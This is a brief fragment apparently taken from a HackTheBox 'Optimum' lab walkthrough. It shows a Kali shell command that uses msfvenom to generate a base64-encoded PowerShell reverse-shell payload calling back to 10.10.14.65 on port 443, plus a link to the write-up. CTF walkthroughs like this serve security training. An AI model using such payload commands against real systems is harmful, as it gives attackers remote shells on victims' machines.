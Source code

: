 
root@Kali:~/HTB/Optimum# msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.65 LPORT=443 --format psh --smallest | msfvenom -a x86 --platform Windows -e powershell/base64 NOEXIT
https://ivanitlearning.wordpress.com/2020/08/01/hackthebox-optimum/
